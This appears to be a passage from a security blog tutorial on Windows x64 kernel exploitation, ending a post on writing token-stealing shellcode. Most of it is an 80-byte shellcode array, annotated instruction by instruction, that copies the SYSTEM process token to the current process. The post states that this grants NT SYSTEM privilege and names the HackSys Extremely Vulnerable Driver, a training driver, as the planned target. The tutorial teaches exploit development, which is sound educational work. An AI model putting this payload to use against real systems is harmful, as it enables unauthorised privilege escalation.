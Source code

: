 
# The final shellcode

We add a few extra instructions to correctly save and restore the context, and
make sure we exit cleanly:

{% gist hugsy/763ec9e579796c35411a5929ae2aca27 %}

We can now simply use any assembler (NASM, YASM) - but I have a personal
preference for [Keystone-Engine](http://keystone-engine.org) - to generate a
bytecode version of our shellcode.

{% highlight text %}
#define LEN 80

const char sc[LEN] = ""
  "\x50"                                                      // push rax
  "\x53"                                                      // push rbx
  "\x51"                                                      // push rcx
  "\x48\x65\xa1\x88\x01\x00\x00\x00\x00\x00\x00"              // mov rax, gs:0x188
  "\x48\x8b\x80\xb8\x00\x00\x00"                              // mov rax, [rax+0xb8]
  "\x48\x89\xc3"                                              // mov rbx, rax
  "\x48\x8b\x9b\xe8\x02\x00\x00"                              // mov rbx, [rbx+0x2e8]
  "\x48\x81\xeb\xe8\x02\x00\x00"                              // sub rbx, 0x2e8
  "\x48\x8b\x8b\xe0\x02\x00\x00"                              // mov rcx, [rbx+0x2e0]
  "\x48\x83\xf9\x04"                                          // cmp rcx, 4
  "\x75\x15"                                                  // jnz 0x17
  "\x48\x8b\x8b\x48\x03\x00\x00"                              // mov rcx, [rbx + 0x348]
  "\x48\x89\x88\x48\x03\x00\x00"                              // mov [rax + 0x348], rcx
  "\x59"                                                      // pop rcx
  "\x5b"                                                      // pop rbx
  "\x58"                                                      // pop rax
  "\x58\x58\x58\x58\x58"                                      // pop rax; pop rax; pop rax; pop rax; pop rax; (required for proper stack return)
  "\x48\x31\xc0"                                              // xor rax, rax  (i.e. NT_SUCCESS)
  "\xc3"                                                      // ret
  "";
{% endhighlight %}


Once copied into an executable location, this shellcode will grant the current
process with `NT SYSTEM` privilege.

The next post will actually use this newly created shellcode in a concrete
vulnerability exploitation (from the
[Extremely Vulnerable Driver](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)
by [HackSys Team](http://hacksys.vfreaks.com)).

Until then, take care!


# Recommended readings

 1. [A Guide to Kernel Exploitation - Attacking The Core](https://www.amazon.com/Guide-Kernel-Exploitation-Attacking-Core/dp/1597494860)
 1. [Introduction To Windows Shellcode Development](https://securitycafe.ro/2015/10/30/introduction-to-windows-shellcode-development-part1/)
 1. [x64 Kernel Privilege Escalation](http://mcdermottcybersecurity.com/articles/x64-kernel-privilege-escalation)
 1. [Well-Known Security IDentifiers](https://support.microsoft.com/en-ca/help/243330/well-known-security-identifiers-in-windows-operating-systems)
